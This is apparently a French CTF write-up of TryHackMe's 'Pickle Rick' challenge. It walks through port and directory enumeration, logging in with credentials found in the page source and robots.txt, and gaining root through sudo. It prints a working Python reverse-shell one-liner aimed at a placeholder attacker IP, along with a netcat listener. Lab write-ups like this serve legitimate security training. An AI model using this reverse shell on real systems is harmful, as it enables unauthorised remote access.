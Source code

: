 ![wallpaper](image/fondd'ecran.png)
# **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus

![pageweb](image/pagewebprincipale.png)

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH

![Scan Nmap](image/scannmap.png)

---

### **2. Exploration de la page web**
- **Inspection du code source :** J’ai analysé le code source de la page web et trouvé un indice important :
  - **Nom d’utilisateur :** `R1ckRul3s`

![Nom d'utilisateur trouvé dans le code source](image/codesource.png)

---

### **3. Recherche des répertoires cachés**

#### **Étape 1 : Utilisation de Gobuster**
J’ai commencé avec **Gobuster** pour découvrir les répertoires et fichiers cachés sur le serveur. Voici la commande que j’ai utilisée :

```bash
gobuster dir -u http://<IP-CIBLE>/ -w <wordlist>
```

- **Résultat :** Gobuster n’a pas trouvé de répertoires exploitables. J’ai réalisé que le problème pouvait venir de la liste de mots utilisée (`wordlist`) qui n’était peut-être pas adaptée au contexte.

![Résultats Gobuster](image/Gobusterenumeration.png)

---

#### **Étape 2 : Passer à Dirb**
Pour vérifier si le problème venait de l’outil ou de la liste, j’ai décidé d’utiliser **Dirb**, un autre outil d’énumération de répertoires. Voici la commande que j’ai utilisée :

```bash
dirb http://<IP-CIBLE>/ <wordlist>
```

- **Résultat :** Dirb a trouvé plusieurs chemins, notamment un fichier `/robots.txt`.

![Résultats Dirb](image/dirbenumeration.png)

---

#### **Étape 3 : Analyse de `/robots.txt`**
En accédant au fichier `/robots.txt`, j’ai trouvé la chaîne suivante :
```
Wubbalubbadubdub
```

Cela ressemblait fortement à un mot de passe ou à un indice. J’ai essayé d’utiliser cette chaîne comme mot de passe pour me connecter au serveur SSH, mais cela a échoué. En effet, le serveur SSH exigeait une clé RSA pour la connexion.

![Analyse robots.txt](image/clue.txt.png)

---

#### **Étape 4 : Réflexion et leçons apprises**
Après cet échec, voici ce que j’ai appris :
1. **Liste de mots adaptée :** L’utilisation d’une wordlist spécifique pour Dirb a permis de découvrir des répertoires que Gobuster n’avait pas trouvé.
2. **Analyse méthodique :** La découverte de `/robots.txt` m’a permis de progresser en obtenant un nouvel indice.
3. **Persévérance :** Même si `Wubbalubbadubdub` n’était pas utilisable immédiatement, je savais qu’il pouvait être pertinent dans une autre partie du challenge.

---

### **4. Scan avec Nikto**
Après avoir exploré `/robots.txt`, j’ai décidé de scanner le serveur avec **Nikto** pour découvrir des fichiers ou répertoires supplémentaires. Voici la commande utilisée :

```bash
nikto -h http://<IP-CIBLE>/
```

- **Résultats :** Nikto a révélé la présence d’un fichier `/login.php`, ce qui m’a permis de progresser.

![Résultats Nikto](image/nikto.png)

---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** J’ai pu me connecter avec succès au fichier `/login.php` et accéder au panneau de contrôle.

![Panneau de contrôle](image/commandpanel.png)

---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.

![Reverse Shell](image/reverseshellcotercible.png)
![Reverse Shell](image/reverseshellcoterattaque.png)

---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.

![Accès root](image/devenirroot+flag3.png)

---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.

![Troisième flag](image/devenirroot+flag3.png)

---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier robot.txt`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.

![résumé_ctf](image/resuméctf.png)

## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.


